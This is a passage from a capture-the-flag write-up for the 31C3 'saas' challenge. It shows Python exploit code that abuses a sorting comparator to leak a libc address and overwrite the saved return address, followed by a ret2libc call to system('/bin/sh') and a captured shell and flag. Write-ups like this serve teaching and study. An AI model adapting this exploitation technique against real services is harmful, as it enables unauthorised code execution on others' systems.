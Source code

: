 def wait_for(s):
    while True:
        p = sock.recv(4096)
        if s in p:
            break

def swap(offset, value):
    n = 1024
    values = [value] + list(xrange(1,n))
    sock.send("7\n" +
            get_comparator(n, n + offset) +
            "1024\n" +
            "\n".join(map(str,values)) + "\n")
    res = None
    while True:
        p = sock.recv(4096)
        m = re.search("Number 1 is now: (\d+)", p)
        if m:
            res = m.group(1)
        if "custom\n:" in p:
            break
    return int(res)

sock = socket.create_connection(("188.40.18.75", 1234))

wait_for("custom\n:")
libc_ret = swap(8, 0x41414141)
print "[*] leaked ret addr to libc_start_main =", hex(libc_ret)
{% endhighlight %}

And voila:

    $ python2 leak.py
    [*] leaked ret addr to libc_start_main = 0xf74aca83

The offset is different on my local machine because I have a different
libc version installed.

Also, if we try this under a debugger, we get

    Program received signal SIGSEGV, Segmentation fault.
    0x41414141 in ?? ()
    gdb-peda$

So the swap worked and we control EIP.

## The final Exploit

From here on it's a simple exercise: We know the libc base and we can write
arbitrary values onto the stack. Now we simply overwrite saved eip with the
address of system and set the first argument to point to "/bin/sh" (also found inside
libc).

The [final exploit
code](https://github.com/kitctf/writeups/blob/master/31c3-ctf/saas/exploit.py)
reliably gives shell access and we are able to retrieve the flag

    $ python2 exploit.py
    [*] leaked libc base = 0xf74ce000
    [*] overwriting return addr
    [*] set first argument to /bin/sh
    [*] Enjoy your shell ;)
    cat /home/user/flag.txt
    31C3_n0tExactlyStrictWEakOrd3r1ng
